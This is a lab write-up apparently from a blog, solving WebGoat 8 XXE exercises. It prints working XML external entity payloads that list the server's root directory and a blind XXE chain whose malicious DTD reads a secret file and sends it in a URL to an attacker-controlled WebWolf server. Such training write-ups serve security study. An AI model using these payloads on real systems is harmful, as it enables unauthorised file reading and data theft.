 Title: Road to OSCP: WebGoat XXE challenges
Date: 2020-02-28
Category: OSCP
Tags: websec, webgoat, xxe
Summary: Solutions for WebGoat 8 XXE tasks
Status: published

#### Intro: simple xxe (as dubbed by authors)
We should abuse XXE vulnerability to list root directory content on the server.
The only entry point is a comment field under some poor cat's photo which got a hanger around his neck :)  
Upon clicking on submit button, client app makes a request with `Content-Type` header set to `application/xml` hence the request body contain XML payload.
It's not a sort of convoluted document, just a couple of tags:
```xml
<?xml version="1.0"?>
<comment>  
  <text>hi there lil cat</text>
</comment>
```


Solution is almost straightforward and based on previous section about XXE:
```
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY ex SYSTEM "file:/">]>
<comment>
  <text>&ex;</text>
</comment>
```

Result:
```json
{
  "lessonCompleted" : true,
  "feedback" : "Congratulations. You have successfully completed the assignment.",
  "output" : null,
  "assignment" : "SimpleXXE"
}
```

Here we instruct XML parser to include content of provided SYSTEM identifier that points to root directory.
It could be assumed that SYSTEM identifier means just an URI to some kind of resource, theoretically it could use any scheme such as http or ftp, it our case we need a local directory content hence scheme is `file`.  
Omitted trailing slashes does not seem to have any effect in that case, it will work either with `file:///` or with `file:/`.
As far as I know one constraint to this kind of identifiers is that they should not contain URI fragments - parts that go after a sharp (#).
For example `http://foo.bar/?a=b#baz` is fragmented and `http://foo.bar/?a=b` is not.

----------------------------------------------

#### Modern REST framework
We provided with exact same form as in the previous example but with other endpoint used. This form send JSON data when adding a comment, but even the URI implies that not the only JSON could be processed at the back-end :)  
As usual, we have to use intercepting proxy (or browser's developer tools) to tamper the request and perform XXE. But we need to change `Content-Type` header value from `application/json` to `application/xml`.
This will allow us to perform attack that very similar to previous one. A little caveat here could is that we do not know what elements should be contained in the XML document, but application proudfully give us an useful
exception if we provide something unexpected for it:
```json
{
  "lessonCompleted" : false,
  "feedback" : "You are posting XML but there is no XXE attack performed",
  "output" : "<SNIP>unexpected element (uri:\\\"\\\", local:\\\"text\\\"). Expected elements are <{}comment>]<SNIP>"
}
```

Expected input is pretty much like in the previous assignment:
```xml
<!DOCTYPE foo [<!ENTITY bar SYSTEM "file:/">]>
<comment>
  <text>&bar;</text>
</comment>
```

----------------------------------------------

#### Blind XXE assignment
Again, the exact same form, but we need to exfiltrate local file content from the server leveraging blind XXE vulnerability. From the previous lesson it's clear that we have to use some server to host our malicious DTD which will be included in payload.
In case of WebGoat 8 it's a good choice to use WebWolf again. It has a request logging capability and provide us with ability to upload arbitrary files for further use.  
Let's check whether the application is vulnerable. Issue request with body similar to this:
```xml
<?xml version="1.0"?>
<!DOCTYPE e [
  <!ENTITY foo SYSTEM "http://localhost:9090/pwned.dtd">
]>
<comment>
  <text>&foo;</text>
</comment>
```
Hooray, we've got a request in WebWolf log! It's indeed vulnerable, now we have to exfiltrate secret key from the server. We may do it using OOB (out-of-band) channel, in our case simplest is the request URI itself. So we need to construct such an entity that will reference URI like `http://localhost:9090/<SECRET_FILE_CONTENT>`. It's not that hard, we have to do three steps:  

1. Construct DTD file which include secret file and declare entity with crafted URI based on this content
2. Upload that DTD to controlled server which attacked application can access. In our case it's WebWolf
3. Craft or tamper comment posting request so that we will include DTD from our server which afterwards will try to include another one exfiltrating file content

Time to practice. Little bit of googling and we've got a malicious DTD:
```xml
<!ENTITY % data SYSTEM "file:///home/webgoat/.webgoat-v8.0.0-SNAPSHOT/XXE/secret.txt">
<!ENTITY % p "<!ENTITY exf SYSTEM 'http://localhost:9090/%data;'>">
```
Pretty straightforward, `data` entity points to local file (got path from the assignment definition) and `p` entity points to inexistent web resource which URI contains acquired file content. Second step is quite simple - upload it to WebWolf and it will provide you with the link. In my case I uploaded it as `pwndtd.dtd` and link was `http://localhost:9090/files/theuser/pwndtd.dtd`.  
Now we need to craft proper request. As earlier, use Burp/ZAP/browser devtools or whatever you want.  
Final request will look like this:
```xml
<?xml version="1.0"?>
<!DOCTYPE e [
  <!ENTITY % bar SYSTEM "http://localhost:9090/files/theuser/pwndtd.dtd"> %bar; %p;
]>
<comment>
  <text>&exf;</text>
</comment>
```
##### Explanation:
We declared external entity that points to our uploaded DTD. This DTD contain declaration for `data`, `p` and `exf` entities, of which we reference here two - `p` and `exf`.
All the entities except `exf` are [parameter entities](https://dtd.nlm.nih.gov/publishing/tag-library/2.3/n-xt60.html) which could be referenced in `DOCTYPE` definition. We reference `p` which contain definition for `exp` that uses `data` parameter entity that reads secret file. May sound intimidating, but it's not that hard. All we need to do is to use `exf` entity to get file content.  
After all WebWolf will show that there was a request to `http://localhost:9090/WebGoat%208.0%20rocks...%20(KOQWMLvnhf)`, urldecode the path and use 'WebGoat 8.0 rocks... (KOQWMLvnhf)' phrase to complete the assignment.
